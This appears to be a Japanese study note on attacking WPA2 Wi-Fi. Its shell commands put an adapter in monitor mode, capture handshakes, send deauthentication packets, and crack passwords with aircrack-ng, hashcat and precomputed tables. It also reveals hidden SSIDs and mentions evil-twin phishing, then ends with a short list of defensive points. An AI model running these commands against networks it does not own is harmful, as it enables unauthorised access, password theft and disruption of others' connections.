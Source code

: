 # ワイヤレス侵入

WPA2 の想定

## モード変更

WiFi アダプタには manage, monitor の 2 種類のモードがある。  
攻撃に使われるのは monitor モード。

```shell
# ネットワークインターフェース確認
ifconfig

# モードを確認（※デフォルトは managed）
iwconfig

# インターフェースをダウン
sudo ifconfig <interface name> down

# モニターモードに変更
sudo iwconfig <interface name> mode monitor

# インターフェースをアップ
sudo ifconfig <interface name> up

# モードを確認（※monitor に変わっていたら成功）
iwconfig
```

## WiFi アダプタが動作していないときに実行するスクリプト

```shell
sudo airmon-ng check kill
sudo ifconfig <interface name> down
sudo iwconfig <interface name> mode monitor
sudo ifconfig <interface name> up
sudo systemctl restart networking
sudo nmcli networking on
```

## 4way ハンドシェイクのキャプチャ取得

### パケットをダンプ（チャンネルとアクセスポイントの BSSID を確認）

```shell
sudo airodump-ng <interface name>
```

### パケットをダンプしてファイル出力

```shell
sudo airodump-ng -c <channel> --bbsid <BSSID> -w <filename> <interface name>
```

### 非認証攻撃でクライアントに再接続させる（再接続時の 4way ハンドシェイクをキャプチャする目的）

```shell
sudo aireplay-ng -0 0 -a <MAC> <interface name>
```

#### cap ファイルは WireShark で開ける

```shell
wireshark <filename>-01.cap
```

## aircrack-ng

### ワードリストを使ってパスワードをクラック

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt <filename>-01.cap
```

### パイプで渡すこともできるが、マッチしても処理が止まらないため使えないと思う

```shell
crunch 12 12 -t abcdef@@@%%% | aircrack-ng -w - SCAN-01.cap
```

## hashcat

GPU を使うため、aircrack-ng より速い

### hcxtools をインストール

```shell
sudo apt install hcxtools
```

### cap を hashcat で扱える形式に変換

```shell
hcxpcapngtool -o output.22000 input.cap
```

### ワードリストを使ってパスワードをクラック

```shell
hashcat -m 22000 output.22000 wordlist.txt
```

## レインボーテーブル

計算負荷の高い PMK を事前に計算しておく手口

### レインボーテーブル作成（ESSID とパスワードの組から PMK が生成される）

PMK = PBKDF2(HMAC-SHA1, パスワード, ESSID, 4096, 256-bit)

```shell
airolib-ng <レインボーテーブル名> --import essid essid.txt
airolib-ng <レインボーテーブル名> --import passwd password.txt
airolib-ng <レインボーテーブル名> --batch
airolib-ng <レインボーテーブル名> --stats
```

### テーブル内容確認

```shell
airolib-ng <レインボーテーブル名> --sql 'select * from essid'
airolib-ng <レインボーテーブル名> --sql 'select * from passwd'
airolib-ng <レインボーテーブル名> --sql 'select * from pmk'
```

### テーブルクリア

```shell
airolib-ng <レインボーテーブル名> --clean all
```

### レインボーテーブルを使ってクラックする

PMK とナンス、MAC を使って PTK が生成される  
PTK = PRF-512(PMK + ANonce + SNonce + MAC アドレス情報)

```shell
aircrack-ng -r <レインボーテーブル名> SCAN-01.cap
```

## fluxion

インタラクティブなツール。フィッシングでユーザーにパスワードを入力させるような機能もある。

https://github.com/FluxionNetwork/fluxion

## Hidden ネットワーク

### ①HiddenNetwork は、ESSID が空欄で表示されるが、BSSID は表示される

```shell
airodump-ng <interface name>
```

### ② BSSID に接続しているクライアントを見つける

```shell
airodump-ng --bssid <BSSID> -c <channel> <interface name>
```

### ③ 特定のクライアントにだけ認証解除パケットを送る（※② は起動したまま）

```shell
aireplay-ng --deauth 5 -a <BSSID> -c <client MAC> <interface name>
```

再接続が行われると、② の表示に ESSID が表示される。あとは通常の場合と同じ。

## その他の攻撃手法

| 名称               | 説明                                                                                                                                           |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| Evil twin attack   | 正規の SSID によく似せたアクセスポイントを設置し、認証解除攻撃を繰り返すなどして、不正なアクセスポイントへの接続を促す。                       |
| Rogue access point | 組織の近くにオープンアクセスポイントを設置する。デバイスがオープン WiFi に自動的に接続する設定になっている場合、知らずに接続する可能性がある。 |

## セキュリティ視点

- WPA2 でリスト生成困難な程度に強力なパスワードを設定していれば、機械的にはクラックできない
- fluxion 等を使ったフィッシングには注意が必要（偽装ホストに誘導してパスワードを入力させる手口）
- レインボーテーブルは ESSID に対して作られるため、定期的にネットワーク名を変更するのは有効
- 逆に、パスワード変更はレインボーテーブルに対しては効果が無い可能性がある
- 隠しネットワークは、セキュリティ的な観点ではまったく無意味
